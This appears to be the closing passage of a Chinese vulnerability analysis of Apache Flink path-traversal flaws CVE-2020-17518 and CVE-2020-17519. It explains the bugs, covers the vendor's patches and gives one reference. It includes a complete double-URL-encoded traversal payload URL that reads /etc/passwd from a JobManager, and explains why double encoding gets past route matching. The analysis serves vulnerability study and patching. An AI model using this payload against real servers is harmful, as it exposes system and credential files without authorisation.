 完整payload

```
http://127.0.0.1:8081/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd
```

#### <a class="reference-link" name="4.%20%E9%97%AE%E9%A2%98%E6%80%9D%E8%80%83"></a>4. 问题思考

为什么要两次URL编码，一次不可以吗？<br>
当传入编码一次的路径的时候，在tokens解析的时候会出现如下错误

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0111391174bc892ec8.png)

在路由匹配的时候不能有多余的斜杠，否则都当做是路由进行处理，所以最好的方法是编码两次。



## 0x04 漏洞修复

### <a class="reference-link" name="0x1%20CVE-2020-17518"></a>0x1 CVE-2020-17518

apache flink采取了最简单的修复方法，在JobManagerCustomLogHandler::channelRead0函数的目录拼接之前，利用File的getName方法直接获取文件名，如下所示

```
Path dest = this.currentUploadDir.resolve((new File(fileUpload.getFilename())).getName());
```

### <a class="reference-link" name="0x2%20CVE-2020-17519"></a>0x2 CVE-2020-17519

采取去同样的修补方法，在JobManagerCustomLogHandler::getFile方法中添加如下代码，获取文件名

```
String filename = (new File((String)handlerRequest.getPathParameter(LogFileNamePathParameter.class))).getName();
```



## 参考文献

[https://securityreport.com/poc-exploits-for-apache-flink-path-traversal-vulnerabilities-posted/](https://securityreport.com/poc-exploits-for-apache-flink-path-traversal-vulnerabilities-posted/)
